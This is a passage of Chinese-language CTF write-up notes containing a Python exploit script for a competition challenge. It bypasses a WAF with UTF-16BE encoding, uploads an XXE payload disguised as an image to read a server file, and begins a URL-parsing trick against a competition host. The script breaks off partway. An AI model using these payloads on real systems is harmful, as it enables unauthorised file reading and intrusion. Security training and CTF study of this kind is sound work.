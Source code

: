		- 用`utf16-be`绕过waf, 然后利用xxe做文件读取
		  id:: 6720a4bd-9205-4b92-ae10-7d1018bc6691
			- ```python
			  content = b"<?xml version=\"1.0\" encoding=\"utf-16be\"" + """?>
			  <!DOCTYPE testtest [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/flag.php">  ]>
			  <user><username>&xxe;</username><password>admin</password></user>
			  """.encode("utf-16be")
			  
			  ```
	- 这部分完整代码
		- ```python
		  import requests
		  
		  
		  cookies = {
		      "session": "eyJjc3JmX3Rva2VuIjoiZDM4M2YzZjZhMDQyMDVmMTE5NjExNzZiNzlkOWNiNDM1Y2NhNzE5MyIsInJvbGUiOiJhZG1pbiJ9.ZyCdEA.sgiEumbM_USZo-ft-j3RLwp2UQw",
		      "token": "eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.DNqIFNdFOWgGGnuk95SQa5GdU_D6TDv95lTU97wUP8ekgqX6zrnvvsnp8XkvVfSx0g3xVQqbo5xhdxjNpM8LiiwX_kQ8FO8t0q0qBn1RJ5O2bGkGOZsUWAUrKg7ME6L4-XFiXi7P328f1t4En_kSp91SeS7-9Lcn7Ja__IJbRuH1",
		  }
		  
		  content = b"<?xml version=\"1.0\" encoding=\"utf-16be\"" + """?>
		  <!DOCTYPE testtest [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/flag.php">  ]>
		  <user><username>&xxe;</username><password>admin</password></user>
		  """.encode("utf-16be")
		  
		  files = {
		      "csrf_token": (
		          None,
		          "ImQzODNmM2Y2YTA0MjA1ZjExOTYxMTc2Yjc5ZDljYjQzNWNjYTcxOTMi.ZyCd8Q.UAhca7G2qiJmVZ6YI7XX6YUwuvk",
		      ),
		      "avatar": ("a.php", content, "image/jpg"),
		      "submit": (None, "Upload"),
		  }
		  
		  response = requests.post(
		      "http://0192d5cd65a17e5597f29036ffe3123f.ze2a.dg04.ciihw.cn:43358/upload",
		      cookies=cookies,
		      files=files,
		  )
		  
		  path = re.search(
		      "successfully uploaded to (/var/www/html/uploads/.+)\\.", response.text
		  ).group(1)
		  print(f"{path=}")
		  
		  
		  
		  data = {
		      "csrf_token": "ImQzODNmM2Y2YTA0MjA1ZjExOTYxMTc2Yjc5ZDljYjQzNWNjYTcxOTMi.ZyCdGw._xwbWkr-zS9f9zNbFfsR6XOT5S4",
		      "path": "www.testctf.com:a@127.0.0.2",
		      "user_input": path,
		      "submit": "Submit",
		  }
		  